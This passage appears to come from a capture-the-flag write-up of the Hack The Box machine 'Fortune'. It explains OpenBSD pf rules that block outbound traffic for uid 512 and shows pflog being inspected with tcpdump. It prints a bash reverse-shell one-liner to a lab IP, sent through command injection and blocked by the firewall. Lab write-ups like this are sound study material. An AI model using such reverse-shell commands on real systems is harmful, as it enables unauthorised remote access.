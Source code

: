 But beyond the implicit block, the lines `block return out log proto tcp all
user = 512` and `block return out log proto tcp all user = 512` is what was
stopping me. I’ll break that down:

  * `block return` \- reject the packet, sending a TCP RST packet (as opposed to `block drop`, which doesn’t send the reset)
  * `out` \- the direction of the packet, in this case outbound
  * `log` \- log the packet
  * `proto tcp` and `proto udp`\- the protocol to be blocked, in this case, both between the two rules
  * `all` \- all traffic
  * `user = 512` \- this rule applies to traffic from the identified user

If I remember back to my command injection, I was uid 512:

    
    
    fortune> id
    uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)
    

### Logging

I hoped that I could see my attempts in the log file, which should be
`/var/log/pflog`. I couldn’t get the file to grow beyond 24 bytes:

    
    
    fortune# ls -l /var/log/pflog
    -rw-------  1 root  wheel  24 Nov  4  2018 /var/log/pflog
    

`pf` logs are stored in tcpdump format, and thus are viewed with `tcpdump`.
But nothing interesting comes out of this file:

    
    
    fortune# tcpdump -n -e -ttt -r /var/log/pflog host 10.10.14.10
    tcpdump: WARNING: snaplen raised from 116 to 160
    

An alternative to the log file is to read logs off the pflog0 interface to
monitor in real time. I started `tcpdump`:

    
    
    fortune# tcpdump -n -e -ttt -i pflog0
    tcpdump: WARNING: snaplen raised from 116 to 160
    tcpdump: listening on pflog0, link-type PFLOG
    

Then I ran a reverse shell via command injection:

    
    
    fortune> bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'
    bash: connect: No route to host
    bash: /dev/tcp/10.10.14.10/443: No route to host
    

A line did appear in the `tcpdump` window:

    
    
    Jul 29 18:31:10.351547 rule 10/(match) block out on em0: 10.10.10.127.22208 > 10.10.14.10.443: S 1233573000:1233573000(0) win 16384 <mss 1460,nop,nop,sackOK,nop,wscale 6,nop,nop,timestamp 1275021369[|tcp]> (DF) 
    

[](/2019/08/03/htb-fortune.html)

